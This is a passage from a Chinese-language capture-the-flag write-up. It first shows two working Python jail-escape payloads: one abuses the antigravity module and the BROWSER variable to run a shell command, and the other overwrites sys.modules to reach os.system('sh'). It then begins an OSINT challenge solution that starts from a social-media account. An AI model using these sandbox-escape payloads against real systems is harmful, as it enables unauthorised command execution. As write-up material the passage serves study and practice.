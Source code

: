 最后exp:

```python
__import__('antigravity',setattr(__import__('os'),'environ',dict(BROWSER='/bin/sh -c "/readflag giveflag" #%s')))
```

#### 方法4 通过恢复sys.modules,让__import__加载getattr生效:

由于`__import__`在加载的时候会先找`sys.modules`-->`https://github.com/python/cpython/blob/48ec678287a3be1539823fa3fc0ef457ece7e1c6/Lib/importlib/_bootstrap.py#L1101`,所以可以先通过`setattr`覆盖`sys.modules`为`__builtins__`,这样`__import__`即可调用`getattr`.通过`getattr`可以来加载`os.system`.由于`.`被ban了所以可以用`__import__('os'),'system'`.然后传参`'sh'`即可

```python
setattr(__import__('sys'),'modules',__builtins__) or __import__('getattr')(__import__('os'),'system')('sh')
```

## OSINT:

### Osint Crime Confusion 1: W as in Where

```
Someone has died unexpectedly. The police is on it, but between you and me, I cannot wait for the police. I am a private investigator and I need your help. Unfortunately, we might be tracked so I cannot give you the information directly. Start in a major social network. Certainly not a problem for the best hacker I know right...? Alright here goes a beautiful poem:

Some people in weird ways were connected
Some were a triangle, some were less directed
For one night they all met
At doctor's Jonathan Abigdail the third they wept 
Things were said, threats in the air
A few days later someone is dead
Who is that someone? That is for you to find,
Also who is the killer, if you really don't mind.

Note for the all the challenges: The challenge is divided into three challenges: Where, Weapon, and Who. Where is the first one the others will come later. In each one you can find the flag somwhere online. You might find the information in any order, however the expected order is: Where, Weapon and Who. Example: If the answer is knife then when you would discover that somewhere: like "the killer used a idek{knife_V5478G}" or instructions on how to get the flag: like "idek{weaponUsed_V5478G}}". The flag would then be idek{knife_V5478G}.
```

本题在线索提示中写道`At doctor's Jonathan Abigdail the third they wept` 其关键词是`Jonathan Abigdail`找到一个ins

https://www.instagram.com/abigdail3djohn/

![](https://i.imgur.com/olZqGoN.png)

ins推文:

```
The EYE
Now imagin you could INK IT!
That is right, at the famous convention for the eye yours truly is presenting!
Hopefully reunited with a lot of old friends to see it!
The hashtag is #TheEye12tothe3isthekeytoBEyousee?
Get HYPEEEED
```
